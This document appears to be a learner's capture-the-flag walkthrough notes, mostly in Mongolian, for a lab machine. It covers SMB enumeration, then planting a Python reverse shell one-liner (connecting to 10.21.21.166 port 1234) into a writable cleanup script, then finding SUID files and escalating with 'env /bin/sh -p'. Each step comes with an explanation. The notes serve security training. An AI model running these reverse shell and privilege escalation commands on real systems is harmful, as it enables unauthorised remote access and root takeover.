










# anonymous 10.201.39.102
1. 

enumerate the SMB service

#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.21.21.166",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

socket.socket(...) — TCP сокет үүсгэнэ.

s.connect(("10.21.21.166",1234)) — холбогдох гэж оролдоно (алсын хост 10.21.21.166, порт 1234).

os.dup2(s.fileno(),0/1/2) — socket-ийг стандарт input(0), output(1), error(2) дээр дуурайлна (stdin/stdout/stderr-ийг сокет руу чиглүүлнэ).

subprocess.call(["/bin/sh","-i"]) — интерактив shell (/bin/sh -i) эхлүүлж, одоо stdin/stdout/error нь socket дамжина → алсын хосттой интерактив shell үүснэ.

python code oo clean.sh d hiiged nc lvp 1234 porto listen hiihed amjilltai newterch chadsan

find / -perm -u=s -type f 2>/dev/null

-perm -u=s
— SUID (set-user-ID) бит дээр тохирсон файлуудыг олно. -u=s гэдэг нь “owner (user) дээр SUID бит байна” гэсэн утгатай. find дээр -perm -4000 гэж ч бичиж болно (SUID = octal 4000).

-type f
— зөвхөн файлууд (regular files)-г харна 

2>/dev/null
— stderr (алдаа/permission denied зэрэг)-г /dev/null руу чиглүүлж, дэлгэцэнд алдаа мессежүүд гаргахгүй болгоно. 

/.env /bin/sh -p гэдэг нь privilege escalation буюу root эрх авах оролдлого хийж байгаа командын нэг төрөл юм.

/usr/bin/env буюу env гэдэг нь environment variables тохируулах, дараа нь команд ажиллуулах зориулалттай стандарт Linux команд юм.

/bin/sh -p бол shell (sh) ажиллуулж байгаа бөгөөд -p флаг нь “preserve privileges” буюу эрхээ хадгалах гэсэн утгатай.

